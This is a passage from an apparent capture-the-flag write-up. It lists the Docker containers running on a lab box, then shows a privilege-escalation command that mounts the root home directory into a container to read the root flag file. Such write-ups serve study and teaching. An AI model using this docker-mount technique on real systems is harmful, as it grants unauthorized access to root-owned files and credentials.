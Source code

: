 A few Docker containers are already running on the box, the web server as well as the SSH server on port 2222 and the DNS server each run in their own Docker container, which, retrospectively, makes sense.

```bash
prometheus@olympus:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES                                                       
f00ba96171c5        crete               "docker-php-entrypoi…"   5 months ago        Up 5 hours          0.0.0.0:80->80/tcp                       crete 
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   5 months ago        Up 5 hours          0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes 
620b296204a3        olympia             "/usr/sbin/sshd -D"      5 months ago        Up 5 hours          0.0.0.0:2222->22/tcp                     olympia
prometheus@olympus:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        5 months ago        450MB
olympia             latest              2b8904180780        5 months ago        209MB
rodhes              latest              82fbfd61b8c1        5 months ago        215MB
```

Putting it all together, it was possible to mount the home directory of the root user as volume inside a Docker container and read the contents of the flag file using the following command:

```bash
prometheus@olympus:~$ docker run -v /root:/root olympia cat /root/root.txt
```
